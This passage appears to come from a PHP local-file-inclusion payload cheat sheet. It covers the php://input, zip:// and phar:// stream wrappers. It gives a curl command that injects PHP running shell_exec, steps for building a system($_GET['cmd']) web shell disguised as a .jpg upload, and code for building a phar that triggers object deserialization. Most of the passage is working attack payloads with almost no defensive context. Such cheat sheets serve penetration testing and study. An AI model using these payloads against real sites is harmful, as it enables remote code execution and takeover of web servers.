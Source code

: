 ###### Wrapper input://

Specify your payload in the POST parameters, this can be done with a simple `curl` command.

```
curl -X POST --data "<?php echo shell_exec('id'); ?>" "https://example.com/index.php?page=php://input%00" -k -v
```

###### Wrapper zip://

1. Create an evil payload: `echo "<pre><?php system($_GET['cmd']); ?></pre>" > payload.php;`
2. Zip the file

```python
zip payload.zip payload.php;
mv payload.zip shell.jpg;
rm payload.php
```

3. Upload the archive and access the file using the wrappers: [http://example.com/index.php?page=zip://shell.jpg%23payload.php](http://example.com/index.php?page=zip://shell.jpg%23payload.php)

###### Wrapper phar://

Create a phar file with a serialized object in its meta-data.

```
// create new Phar
$phar = new Phar('test.phar');
$phar->startBuffering();
$phar->addFromString('test.txt', 'text');
$phar->setStub('<?php __HALT_COMPILER(); ? >');

// add object of any class as meta data
class AnyClass {}
$object = new AnyClass;
$object->data = 'rips';
$phar->setMetadata($object);
$phar->stopBuffering();
```

If a file operation is now performed on our existing Phar file via the phar:// wrapper, then its serialized meta data is unserialized. If this application has a class named AnyClass and it has the magic method __destruct() or __wakeup() defined, then those methods are automatically invoked

```
class AnyClass {
    function __destruct() {
        echo $this->data;
    }
}
// output: rips
include('phar://test.phar');
```

NOTE: The unserialize is triggered for the phar:// wrapper in any file operation, `file_exists` and many more.
